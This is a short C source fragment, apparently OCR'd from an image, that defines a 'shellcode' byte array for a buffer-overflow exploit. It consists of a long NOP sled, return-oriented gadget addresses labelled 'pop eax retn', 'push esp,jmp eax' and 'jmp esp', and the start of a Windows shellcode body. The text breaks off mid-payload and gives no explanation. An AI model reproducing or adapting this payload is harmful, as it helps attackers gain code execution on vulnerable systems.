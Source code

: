 	char shellcode[]=

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	
	"\x90\x90\x90\x90"
	"\x8d\x99\x80\x7c" //pop eax retn

	"\x29\x4b\x75\x7d" //pop pop pop

	"\xe5\x0b\x76\x7d" //修正ebp

	"\xa7\xb3\x5c\x7d" //retn

	"\x90\x90\x90\x90"

	"\x5c\xdc\xeb\x77" //push esp,jmp eax

	"\xff\x00\x00\x00"

	"\x40\x00\x00\x00"

	"\x5c\xdc\xeb\x77" //push esp,jmp eax

	"\x90\x90\x90\x90"

	"\x90\x90\x90\x90"

	"\xd9\x1a\x80\x7c" //funcation

	"\x90\x90\x90\x90"

	"\xd8\xfc\x93\x7c" //jmp esp

	"\x90\x90\x90\x90"

	"\x90\x90\x90\x90"

	"\x90\x90\x90\x90"

	"\x90\x90\x90\x90"

	

	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"

	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
